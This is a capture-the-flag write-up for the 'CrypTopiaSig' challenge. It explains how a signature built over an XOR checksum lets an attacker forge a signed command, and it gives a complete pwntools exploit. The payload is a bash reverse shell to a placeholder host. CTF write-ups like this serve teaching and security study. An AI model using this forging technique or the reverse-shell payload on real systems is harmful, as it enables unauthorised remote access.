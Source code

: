 ## CrypTopiaSig

### Description

We just found a breach in CrypTopia servers, and we have a shell access!
However, they are using a custom shell to run commands in an authenticated way.
We managed to exfiltrate the source code and a sample file, can you find a way to execute commands??

**Author: algorab**

### Solution

#### Analysis

In the algorithm, one section catches attention: the signing algorithm.

```python
def __sign(self, gen, key, mod):
    bl = gen.bit_length()
    for i in range(len(self.data)):
        gen = (gen ^ (self.data[i] << (i % bl))) & 2**bl-1
    s = 1
    while key:
        if key & 1:
            s = s * gen % mod
        key = key >> 1
        gen = gen * gen % mod
    return s
```

We can see that, in this algorithm, the signature is derived from some kind of checksum of the data instead of the data itself. For each byte of the data, the generator is xored with this byte with a bit offset equal to its index in the data, modulo the length of the generator. Then, the signature is equal to `pow(checksum, key, mod)`.

Therefore, the signature relies on the checksum of the data instead of the data itself! Also, we have a signature already generated for us, which means that if we manage to craft data with same checksum than the example payload, we can execute whatever we want!

#### Exploitation

1. First, we decide our payload, which will be a reverse shell here: `payload = b"bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1';#"`. The `;#` is added so that we can add data after it to match the targeted checksum.
2. Then, we have to pad our payload with an arbitrary character to put the offset at the first bit. This can be done this way:
```python
def pad(data, gen, char):
    while len(data) % gen.bit_length() != 0:
        data += char
    return data
```
**We have to make sure that the checksum of our padded payload has the same bit size of the checksum of the original payload, otherwise there will be inconsistent checksum sizes afterwards.**

3. Then, by using the XOR of the targeted checksum and the checksum of the padded payload, we can add either `\x01` or `\x02` to flip or not the bit at each position to finally match the targeted checksum. Note that we cannot use `\x00`, as this would raise an exception during the execution of the code.

4. Finally, craft a correctly formated base64 data to submit to the service, and enjoy the shell!

Here is the full code:
```python
from base64 import b64encode
from pwn import *

host = sys.argv[1]
port = int(sys.argv[2])

G = 0x8b6eec60fae5681c
MAGIC = b"\x01\x02CrypTopiaSig\x03\x04"

def chksm(data, gen):
    bl = gen.bit_length()
    for i in range(len(data)):
        gen = (gen ^ (data[i] << (i % bl))) & 2**bl-1
    return gen

def pad(data, gen, char):
    while len(data) % gen.bit_length() != 0:
        data += char
    return data

def create(data, signature):
    header = MAGIC + len(data).to_bytes(6, 'big') + len(signature).to_bytes(6, 'big')
    return header + data + signature

def parse(data):
    length = int.from_bytes(data[len(MAGIC):len(MAGIC)+6], 'big')
    signature_length = int.from_bytes(data[len(MAGIC)+6:len(MAGIC)+12], 'big')
    header = data[:len(MAGIC)+12]
    signature = data[len(MAGIC)+12+length:len(MAGIC)+12+length+signature_length]
    data = data[len(MAGIC)+12:len(MAGIC)+12+length]
    return header, data, signature

original = b'echo "The date is $(date)\nYou are $(whoami)\nCurrent directory is $(pwd)"'
payload = b"bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1';#"

original_chksm = chksm(original, G)
payload_chksm = chksm(payload, G)

x = bin(original_chksm ^ payload_chksm)[2:]

pad_char = 1
ext_payload = pad(payload, G, bytes([pad_char]))
while len(bin(payload_chksm)) != len(bin(chksm(ext_payload, G))):
    pad_char += 1
    ext_payload = pad(payload, G, bytes([pad_char]))

for i in range(len(x), 0, -1):
    bit = x[i-1]
    if bit == '1':
        ext_payload += b"\x01"
    else:
        ext_payload += b"\x02"
    payload_chksm = chksm(ext_payload, G)
    x = bin(original_chksm ^ payload_chksm)[2:]

_, _, signature = parse(open("example.ctpsig", 'rb').read())

b64payload = b64encode(create(ext_payload, signature))

conn = remote(host,port)
conn.recvuntil(b"$ ")
conn.sendline(b64payload)
conn.close()
```

###

The flag is located in `/app/.passwd` and is `N0PS{d0nT_s1gN_W17h_ChK5uMz}`